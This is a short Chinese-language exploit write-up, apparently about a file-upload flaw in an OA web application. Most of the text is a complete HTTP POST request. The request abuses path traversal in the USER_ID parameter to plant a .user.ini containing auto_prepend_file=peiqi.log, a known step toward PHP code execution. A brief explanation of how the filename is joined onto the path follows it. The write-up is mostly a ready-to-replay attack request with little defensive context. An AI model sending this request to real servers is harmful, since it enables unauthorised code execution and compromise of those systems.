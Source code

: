 请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 **USER_ID=../../general/.user** 为上传路径

```plain
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
```

这里拼接后上传就变成了 **.user.ini**

![image-20220209111339894](/images/202202091113999.png)
